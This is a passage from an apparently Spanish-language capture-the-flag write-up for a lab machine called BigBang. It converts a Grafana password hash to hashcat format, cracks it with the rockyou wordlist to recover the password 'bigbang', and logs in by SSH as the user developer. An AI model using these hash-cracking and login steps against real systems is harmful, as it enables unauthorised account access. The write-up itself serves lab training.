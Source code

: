 ~~~ go
~~~

Con el script preparado, compilaremos rápidamente la pequeña herramienta

~~~ bash
go mod init grafana2hashcat

go mod tidy  # Quizá necesites ejecutar esto

# Compilamos el script
go build -o grafana2hashcat -ldflags="-s -w"
upx grafana2hashcat
~~~

Ahora tendremos un conversor de hashes desde `Grafana` a `hashcat`. El archivo de hashes que podemos usar debe contener la contraseña en formato hash y el `salt`, separados por `:`

~~~ text
cat hash.txt

7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960:4umebBJucv
~~~

Lanzaremos la herramienta para convertir los hashes rápidamente

~~~ bash
./grafana2hashcat hash.txt 

[+] Conversion complete:
    Total lines processed: 1
    Successfully converted: 1
    Failed conversions: 0

You can use the #10900 mode in hashcat!

Example: hashcat -m 10900 out_hashes.txt -a 0 /usr/share/wordlists/rockyou.txt -O
[+] Results saved to: out_hashes.txt
~~~

Lanzamos `hashcat` para intentar crackear los hashes que obtuvimos con la herramienta

~~~ bash
hashcat -m 10900 out_hashes.txt -a 0 /usr/share/wordlists/rockyou.txt -O --show 
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=:bigbang
~~~

Y hemos encontrado la contraseña `bigbang`, recordemos que hemos cogido el hash para el usuario `developer`, entonces significa que la contraseña es de este usuario


## Shell as `developer`

Con esta contraseña podremos acceder por `ssh` a la máquina víctima

~~~ bash
ssh developer@blog.bigbang.htb 
developer@blog.bigbang.htb's password: 

Last login: Sat May  3 18:33:16 2025 from 10.10.14.174
-bash-5.1$ 
~~~
